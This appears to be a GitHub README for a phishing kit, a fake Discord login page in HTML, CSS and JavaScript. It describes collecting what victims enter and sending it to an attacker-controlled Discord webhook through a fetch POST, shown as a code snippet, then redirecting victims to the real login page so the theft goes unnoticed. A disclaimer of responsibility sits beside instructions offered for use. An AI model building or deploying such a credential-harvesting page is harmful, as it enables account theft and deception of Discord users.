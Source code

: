 
# Discord Fake Login Page

This is a fake Discord login page, in HTML, CSS and Javascript.
I am in no way responsible for what you do with this code!

# Requirement
- Discord Webhook
I used discord's webhook api to allow transferring user information.

# Functionality
- Send the informations to discord

- Links like the registration page or the "I forgot my password" page do not work.
- When the user clicks on the login button, it will display an alert then redirect to the real discord login page, you can easily modify this by going to the script.js file which is located in the /en/ folder if you want the page to be in English or /fr/ if you want the page to be in French.

## Discord Webhook

#### Fetch

```txt
  fetch('https://discord.com/api/webhooks/ // url of your Webhook', {
            method: 'POST',
            headers: {
                'Content-Type': 'application/json'
            },
            body: JSON.stringify(data)
        })
```
#### More informations about discord webhook

```link
  https://discord.com/developers/docs/resources/webhook
```

## Warning !
#### I am in no way responsible for what you do with this code!

## Author

- Julus the developper, on Github
- mq_julus, on Discord
